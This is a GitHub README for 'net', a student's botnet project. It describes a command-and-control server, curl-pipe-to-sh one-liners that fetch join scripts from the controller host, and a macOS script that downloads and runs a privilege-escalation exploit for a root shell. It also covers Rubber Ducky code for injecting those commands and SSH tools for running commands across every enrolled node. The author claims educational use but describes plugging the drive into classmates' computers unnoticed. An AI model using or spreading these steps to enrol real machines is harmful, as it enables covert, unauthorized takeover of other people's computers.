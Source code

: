 <img alt="Lynchburg College logo" src="http://www.commonapp.org/files/styles/400-y/public/school/logo/Homepage_LYNCHBURG_Lynchburg-logo-500x500.png" align="right" width=300>

# net
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet. If you already have root access, you can just run `enact.sh` directly.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl [host]:2042/jm |sh
curl [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for this as well:
```sh
curl [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

During my cybersecurity class in which I developed `net`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
